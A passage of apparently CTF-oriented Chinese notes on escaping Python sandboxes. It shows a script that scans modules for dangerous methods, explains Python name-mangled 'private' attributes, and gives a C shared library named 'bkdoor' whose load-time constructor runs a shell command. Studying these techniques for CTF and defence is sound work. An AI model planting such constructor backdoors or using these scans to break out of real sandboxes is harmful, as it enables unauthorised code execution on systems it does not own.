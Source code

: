 ```python
        'result': {}
    }
    try:
        m = __import__(module)
        attrs = dir(m)
        for method in methods:
            if method in attrs:
                results[module]['flag'] = 1
                results[module]['result'][method] = '\033[1;31mYES\033[0m'
            else:
                results[module]['result'][method] = 'NO'
    except Exception as e:
        print module, e

for result in results:
    if results[result]['flag']:
        print '[*]', result
        for r in results[result]['result']:
            print '\t[+]', r, '=>', results[result]['result'][r]
```

# 伪 `private` 属性和函数

Python 中以双下划线开头的函数和属性是 `private` 的，但是这种 `private` 只是形式上的，表示这个函数不应该在本类之外的地方进行访问，而是否遵守则取决于具体的实现。公有的函数和属性，使用其名字直接进行访问；而私有的属性和函数，使用 `下划线+类名+函数名` 进行访问：

```python
In [1]: class A():
    ...:     __a = 1
    ...:     b = 2
    ...:     def __c(self):
    ...:         pass
    ...:     def d(self):
    ...:         pass
    ...:

In [2]: dir(A)
Out[2]: ['_A__a', '_A__c', '__doc__', '__module__', 'b', 'd']
```

# 构造 so 库

编译一个 so 库，并写入指定的路径：

```cpp
// gcc bkdoor.c -shared -fPIC -o libbkdoor.so
void my_init() __attribute__((constructor));
void my_init() {
    system("ls -la /home/ctf/ > /tmp/ls_home_ctf");
}
```
